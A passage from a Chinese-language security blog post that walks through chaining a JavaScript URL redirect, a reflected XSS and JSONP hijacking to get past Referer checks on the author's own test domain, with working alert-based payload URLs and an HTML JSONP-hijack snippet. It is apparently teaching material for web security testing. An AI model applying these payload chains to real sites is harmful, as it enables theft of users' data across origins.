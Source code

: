 当 `referer = a.com` :

![xss](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-08-01/0x09.png)

当 `referer = vulkey.cn` :

![xss](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-08-01/0x10.png)

当 `referer = *.vulkey.cn` :

![xss](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-08-01/0x11.png)

这个接口验证了Referer使用之前的方法没办法绕过，于是采用组合拳搭配。 

于是有了如下的构建：`http://test.vulkey.cn/link.php?url=http://vulkey.cn/jsonp.php?callback=vulkey<svg/onload=alert(1)>`

![xss](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-08-01/0x12.png)

###### JSONP劫持+反射XSS+URL跳转

这个案例是基于上面反射XSS案例的，现在已知的三个问题：

1. JSONP接口 `http://vulkey.cn/jsonp.php?callback=vulkey` **有Referer限制**
2. 反射XSS `http://vulkey.cn/jsonp.php?callback=vulkey<svg/onload=alert(1)>` **有Referer限制**
3. JavaScript URL跳转 `http://test.vulkey.cn/link.php?url=http://www.hi-ourlife.com` 

一般JSONP跨域劫持的PoC是这样的：

```html
<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
<script src="url"></script>
```

但是因为有Referer限制，就不能在自己的站点上做PoC了，就只能利用反射XSS漏洞构建PoC：

`http://vulkey.cn/jsonp.php?callback=%3Cscript%3Efunction+vulkey(data){alert(JSON.stringify(data));}%3C/script%3E%3Cscript+src=%22http://vulkey.cn/jsonp.php?callback=vulkey%22%3E%3C/script%3E`

但仅仅如此是不够是因为XSS有Referer来源的限制，所以最终的PoC应该是这样的：

`http://test.vulkey.cn/link.php?url=http://vulkey.cn/jsonp.php?callback=%253Cscript%253Efunction%2bvulkey%28data%29%7Balert%28JSON.stringify%28data%29%29%3B%7D%253C%2fscript%253E%253Cscript%2bsrc%3D%2522http%3A%2f%2fvulkey.cn%2fjsonp.php%3Fcallback%3Dvulkey%2522%253E%253C%2fscript%253E`

![bypass](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-08-01/0x13.png)

也就是说在这里JS的URL跳转解决了XSS的Referer限制问题，而XSS又解决了JSONP接口的Referer限制问题，这是一个联合组合拳。如果你发现的XSS没有Referer限制则不需要这么"麻烦"。

# 结尾

文中总结一些小的TIPS，针对我遇到的实际案例进行了漏洞的复现截图，打开思维其实还有更多更好的思路，有机会后期会写出来。